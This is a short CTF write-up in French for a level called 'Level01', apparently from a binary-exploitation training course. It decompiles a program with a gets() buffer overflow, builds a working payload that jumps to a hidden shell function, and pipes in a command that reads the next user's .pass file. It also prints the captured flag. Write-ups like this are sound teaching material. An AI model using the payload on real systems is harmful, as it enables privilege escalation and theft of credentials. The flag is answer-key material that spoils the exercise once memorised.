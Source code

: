 # Rapport CTF - [Level01]

### Observation :
En arrivant sur le level1 on trouve un executable nommé level1. \
Quand nous essayons de le lancer nous pouvons ecrire une chaine de caractere puis le programme se stop. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048444) --------------------------------------------------------
int run()
{
  fwrite("Good... Wait what?\n", 1u, 0x13u, stdout);
  return system("/bin/sh");
}

//----- (08048480) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+10h] [ebp-40h] BYREF

  return (int)gets(s);
}
```
On peux voir que il existe une fonction `run()` qui permet de /bin/sh avec l'utilisateur level2. \
Malheureusement cette fonction n'est jamais executer, nous devons donc trouver une maniere de l'executer.

### Solution :

Le but est de lancer la fonction run() pour obtenir un shell avec les droits de l'utilisateur level2
Pour se faire il nous suffit de buffer overflow `s` avec plus de 64 octets pour remplacer l'adresse de retour, cela vas nous faire jump dans notre fonction `run()`

Pour trouver notre adresse de `run` rien de plus simple nous pouvons regarder notre addresse avec gdb ou regarder hex-ray qui nous l'affiche directement au dessus de la fonction `(08048444)`

Comme nous sommes en little endian nous devons donc retourner notre chaine de caractere pour que le binaire puisse le comprendre. \
Cet iterateur python permet de retourner une string : `[::-1]`

Nous regardons ensuite la stack de notre main avec gdb qui est egal a `0x50u` donc 80 octets, pour ecraser l'adresse de notre return, il nous faut donc ecrire `80 - 4 = 76` octets random puis notre address.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('A' * 76 + '\x08\x04\x84\x44'[::-1])" ; echo "cat /home/user/level2/.pass") | ./level1
```
### Resultat:
```sh
Good... Wait what? 
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```